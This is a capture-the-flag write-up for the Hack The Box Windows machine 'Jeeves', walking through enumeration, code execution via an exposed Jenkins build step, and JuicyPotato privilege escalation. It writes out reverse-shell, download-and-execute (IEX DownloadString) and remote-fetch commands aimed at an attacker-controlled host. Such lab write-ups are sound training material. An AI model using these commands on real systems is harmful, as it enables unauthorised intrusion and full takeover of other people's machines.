









# Jeeves

[Jeeves](https://app.hackthebox.com/machines/114) is a Medium level machine (which is not really that difficult to solve). This is a Windows based machine which focuses on utilizing a service running on the server to gain access to the machine. There are two ways to perform privilege escalation on this machine. So, let's begin!

## Enumeration

As usual the thing to do is to start an `nmap` scan to see what ports are open on the target machine.

```
$ sudo nmap -n -Pn -p- -sS 10.129.228.112
[sudo] password for nirvana:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-01 10:17 PDT
Nmap scan report for 10.129.228.112
Host is up (0.083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
50000/tcp open  ibm-db2

Nmap done: 1 IP address (1 host up) scanned in 173.60 seconds
```

From the port scan it can be seen that the ports open on the target machine are 80, 135, 445 and 50000. We can start a service version detection scan along with OS scan for these ports.

```
$ sudo nmap -p80,135,445,50000 -sV -O 10.129.228.112
Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-01 10:20 PDT
Nmap scan report for 10.129.228.112
Host is up (0.081s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds$ sudo nmap -p80,135,445,50000 -sV -O 10.129.228.112
```

As it can be seen that port 80 is open, we can take a look at it to see if something interesting shows up there.



It looks like there is some sort of search engine hosted over here. There might be a potential SQLi over here. We can get started with a simple search to see what is being returned.



Whatever we search for, it returns the same SQL Server error. On further inspection, it can be determined that is not even the error but just an image of the error. The same can be verified from the source code where it can be seen that the `jeeves.PNG` file is being pulled on the webpage. Seems like this search bar is probably a rabbit hole but we can still try to run a directory brute-force against this endpoint using `ffuf` to see if there are any hidden pages.

Before starting that it would be helpful to see what kind of web server is running. For that we can simple check the response header.



From the response header, it can be seen that it is a Microsoft IIS Server, so it might have asp/x pages along with html (as well saw with `error.html`). So, we can provide that as well to `ffuf`.

While the scan is running we can take a look at other open ports like 135 and 445. We can run `nmap` scripts against it to see if some SMB information can be obtained.

```
┌──(nirvana㉿den)-[~/ctf/htb/jeeves]
└─$ nmap -p135,445 -sC 10.129.228.112
Starting Nmap 7.94 ( https://nmap.org ) at 2024-05-02 10:32 PDT
Nmap scan report for 10.129.228.112
Host is up (0.083s latency).

PORT    STATE SERVICE
135/tcp open  msrpc
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-05-02T22:32:07
|_  start_date: 2024-05-02T22:00:41

Nmap done: 1 IP address (1 host up) scanned in 40.40 seconds
```

Nothing interesting over here. We can also run `enum4linux` against this IP.

```
$ enum4linux -a 10.129.228.112
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu May  2 10:36:52 2024

 =========================================( Target Information )=========================================

Target ........... 10.129.228.112
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 10.129.228.112 )===========================


[E] Can't find workgroup/domain


 ===============================( Nbtstat Information for 10.129.228.112 )===============================

Looking up status of 10.129.228.112
No reply from 10.129.228.112

 ==================================( Session Check on 10.129.228.112 )==================================


[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
```

Again, we don't see anything useful over here. So, we can move on to the next and last port 50000. 



It looks like a web server exists on port 50000 and there are some sort of access issues. The error does say `Powered by Jetty:// 9.4.z-SNAPSHOT`, maybe we can look for any specific exploits for this. There is an exploit for information disclosure but that won't be helpful for us. 

But as it has access issues, it might be worth doing a directory brute-force to see if we can find some hidden useful page. So, we can start another `ffuf` scan against this port.

```
$ ffuf -u http://10.129.228.112:50000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.228.112:50000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 84ms]
    * FUZZ: askjeeves
```

This `askjeeves` looks like an interesting path to check out.



Seems like we have direct access to Jenkins dashboard. 



From the People tab, it looks like there is only one user which is the admin. We can try to escalate over privileges to admin level and see if we can gain access to the machine in any way.



After clicking on the admin user, we can access admin's account and even modify the configurations for this account (including password). We can try to change the password but probably won't be of much use as well can already access everything directly.

There are options related to Build, which might help us run commands directly on the target machine through which we can try to pop a reverse shell.

We can being this by going to the Jenkins home page, click on `New Item`, enter a project name and select Freestyle project.



In the General setting of the project, it can be seen that there are various Build steps that can be added including an option to **Execute Batch Command**.

## Initial Access

With that option selected we can provide a batch command that will be executed during the build. Here, we can provide a powershell command that would create a reverse shell. The easiest way to do this would be to get the base64 encoded powershell reverse shell command that can be easily generated from [RevShells](https://www.revshells.com/)(PowerShell #3 - Base64).



Start a simple `nc` listener on the port that was used to generated the PowerShell command and then click on `Build Now` after saving these changes.

And with that we get our initial access to the machine

```
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.15.61] from (UNKNOWN) [10.129.228.112] 49676

PS C:\Users\Administrator\.jenkins\workspace\RevShell> whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\RevShell> pwd

Path
----
C:\Users\Administrator\.jenkins\workspace\RevShell
```

With this inital access, we can also get the user flag.

```
PS C:\> cd ~\Desktop
PS C:\Users\kohsuke\Desktop> dir


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        11/3/2017  11:22 PM             32 user.txt


PS C:\Users\kohsuke\Desktop> type user.txt
```

## Privilege Escalation

Now, that we are on the machine and already have the user flag. We can do some enumeration to see what kind of system we are on and what privileges do we have.

```
PS C:\Users\kohsuke\Desktop> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          5/2/2024, 6:00:33 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.21805430.B64.2305221826, 5/22/2023
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,113 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,692 MB
Virtual Memory: In Use:    995 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513
                           [02]: KB3161102
                           [03]: KB3172729
                           [04]: KB3173428
                           [05]: KB4021702
                           [06]: KB4022633
                           [07]: KB4033631
                           [08]: KB4035632
                           [09]: KB4051613
                           [10]: KB4041689
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.228.112
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

From the `systeminfo` result, it looks like we are on a Windows 10 Pro machine which is running on VMware. 

```
PS C:\Users\kohsuke\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

From the current user's privilege information, it can be determined that we have `SeImpersonatePrivilege` which would allow us to impersonate someone else. Using this we can try to impersonate the admin on this machine.

From this [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) page we confirm that this privilege can be exploit to perform privilege escalation using a tool like [Juicy Potato](https://github.com/ohpe/juicy-potato).

We need to download the executable file from [here](https://github.com/ohpe/juicy-potato/releases/). Once downloaded, we can send it to the target machine my starting a python server on our own machine and using the IWR command on the target machine.

```
PS C:\Users\kohsuke\Downloads> iwr "http://<your-ip>:8000/JuicyPotato.exe" -o jp.exe
PS C:\Users\kohsuke\Downloads> dir


    Directory: C:\Users\kohsuke\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/3/2024   5:03 AM         347648 jp.exe

PS C:\Users\kohsuke\Downloads> .\jp.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

For the program to be executed, we can use the [Invoke-PowerShellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) script which is part of [Nishang](https://github.com/samratashok/nishang). We can simple download this script and at the bottom, need to add one more line to create a connection with the attacker machine.

```
Invoke-PowerShellTcp -Reverse -IPAddress <your-ip> -Port 1337
```

Now, we need to get this ps1 get executed by a program that can be passed to the Juicy Potato. In order to do that, we can create a new file called `shellcall.bat` having the following content:

```
powershell -c IEX ((New-Object System.WebClient).DownloadString('http://<your-ip>:8000/Invoke-PowerShellTcp.ps1'))
```

Now, we can start a python server where both the `shellcall.bat` and `Invoke-PowerShellTcp.ps1` exist.

The task would be to pull the `shellcall.bat` on the target machine. This can be done using the IWR command

```
iwr "http://<your-ip>:8000/shellcall.bat" -o shellcall.bat
```

Before running Juicy Potato command, we need to start a listener on 1337. Once that's done, we can run the Juicy Potato command with shellcall script.

```
.\jp.exe -t * -l 1337 -p shellcall.bat
```

With the execution of the `shellcall.bat`, there will be another request on our Python server to pull the `Invoke-PowerShellTcp.ps1` file
```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.112 - - [02/May/2024 22:15:20] "GET /shellcall.bat HTTP/1.1" 200 -
10.129.228.112 - - [02/May/2024 22:15:35] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

If everything goes well, we will get our desired privileged shell

```
$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.15.61] from (UNKNOWN) [10.129.228.112] 49811
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32>
```

And there we get access as `NT Authority\System`!

## Key Points to Take Away

1. If there is a vulnerability that you are sure about, keep trying different ways to exploit it.
2. When you want to run PowerShell command directly from a script pulled from web use `powershell -c IEX ((New-Object System.WebClient).DownloadString`, `IEX(IWR().Content)` might not work.

## References

1. [Jeeves](https://app.hackthebox.com/machines/114)
2. [RevShells](https://www.revshells.com/)
3. [HackTricks: Privilege Escalation Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)
4. [Juicy Potato](https://github.com/ohpe/juicy-potato)
5. [Nishang: Invoke-PowerShellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

